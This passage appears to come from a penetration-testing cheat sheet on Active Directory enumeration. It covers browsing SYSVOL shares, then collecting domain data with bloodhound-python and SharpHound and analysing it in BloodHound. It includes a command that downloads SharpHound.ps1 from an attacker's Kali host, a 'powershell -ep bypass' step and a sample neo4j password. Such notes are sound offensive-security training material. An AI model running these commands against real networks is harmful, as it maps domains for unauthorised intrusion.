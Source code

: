 ```bash
ls \\%SystemRoot%\SYSVOL\Sysvol\domain-name

# esempio
ls \\dc01.medtech.com\SYSVOL\medtech.com
```

There may be important information within the policies:

```bash
ls \\%SystemRoot%\SYSVOL\Sysvol\domain-name\Policies

# esempio
ls \\dc01.medtech.com\SYSVOL\medtech.com\Policies
```

In general, it is always worth checking the shares and paying particular attention to the non-default ones.

## Collecting Data with SharpHound

```powershell
# from kali
bloodhound-python -c ALL -u USERNAME -p 'PASSWORD' -d DOMAIN.COM -dc dc01.DOMAIN.COM -ns %IP

# from Windows
iwr -uri http://$KALI_IP:9999/windows/SharpHound.ps1 -Outfile SharpHound.ps1

powershell -ep bypass

Import-Module .\SharpHound.ps1

Get-Help Invoke-BloodHound

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\programdata\ -OutputPrefix "audit"
```

## Analysing Data using BloodHound

Start _neo4j_:

```bash
sudo neo4j start
```

Go to http://localhost:7474 and log in (_neo4j_:_neo4j_). You will then be asked to change your password.

Start _bloodhound_:

```bash
bloodhound
```

Log in with the credentials previously set on _neo4j_ (neo4j:neo4j96$!).

Upload the zip file, previously generated by _SharpHound_, using the _Upload Data_ function.
